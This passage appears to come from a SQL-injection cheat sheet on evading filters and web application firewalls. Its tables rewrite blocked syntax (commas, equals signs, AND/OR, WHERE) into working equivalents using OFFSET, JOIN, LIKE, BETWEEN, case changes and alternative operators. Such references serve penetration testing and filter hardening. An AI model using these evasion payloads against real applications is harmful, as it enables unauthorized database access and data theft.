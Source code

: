 ### No Comma Allowed

Bypass using `OFFSET`, `FROM` and `JOIN`.

| Forbidden           | Bypass |
| ------------------- | ------ |
| `LIMIT 0,1`         | `LIMIT 1 OFFSET 0` |
| `SUBSTR('SQL',1,1)` | `SUBSTR('SQL' FROM 1 FOR 1)` |
| `SELECT 1,2,3,4`    | `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d` |

### No Equal Allowed

Bypass using LIKE/NOT IN/IN/BETWEEN

| Bypass    | SQL Example |
| --------- | ------------------------------------------ |
| `LIKE`    | `SUBSTRING(VERSION(),1,1)LIKE(5)`          |
| `NOT IN`  | `SUBSTRING(VERSION(),1,1)NOT IN(4,3)`      |
| `IN`      | `SUBSTRING(VERSION(),1,1)IN(4,3)`          |
| `BETWEEN` | `SUBSTRING(VERSION(),1,1) BETWEEN 3 AND 4` |

### Case Modification

Bypass using uppercase/lowercase.

| Bypass    | Technique  |
| --------- | ---------- |
| `AND`     | Uppercase  |
| `and`     | Lowercase  |
| `aNd`     | Mixed case |

Bypass using keywords case insensitive or an equivalent operator.

| Forbidden | Bypass                      |
| --------- | --------------------------- |
| `AND`     | `&&`                        |
| `OR`      | `\|\|`                      |
| `=`       | `LIKE`, `REGEXP`, `BETWEEN` |
| `>`       | `NOT BETWEEN 0 AND X`       |
| `WHERE`   | `HAVING`                    |

## Labs
